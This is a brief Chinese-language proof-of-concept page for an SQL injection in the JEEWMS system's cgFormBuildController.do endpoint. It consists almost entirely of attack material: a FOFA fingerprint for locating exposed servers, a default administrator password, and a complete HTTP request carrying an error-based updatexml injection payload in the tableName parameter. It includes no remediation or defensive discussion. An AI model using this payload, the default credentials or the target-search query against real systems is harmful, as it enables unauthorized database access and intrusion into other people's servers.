 # JEEWMS系统cgFormBuildController.do存在SQL注入漏洞

JEEWMS系统cgFormBuildController.do存在SQL注入漏洞

## fofa

```javascript
body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro"
```

## poc

默认密码：admin/llg123

```javascript
GET /jeewms/cgFormBuildController.do?mobileForm&tableName='and/**/updatexml(1,concat(0x7e,user(),0x7e),1)and' HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: JSESSIONID=638E9021C7F71842BDAD39D26DD10E48; JEECGINDEXSTYLE=ace; ZINDEXNUMBER=1990
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

![image-20250220152053729](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502201520931.png)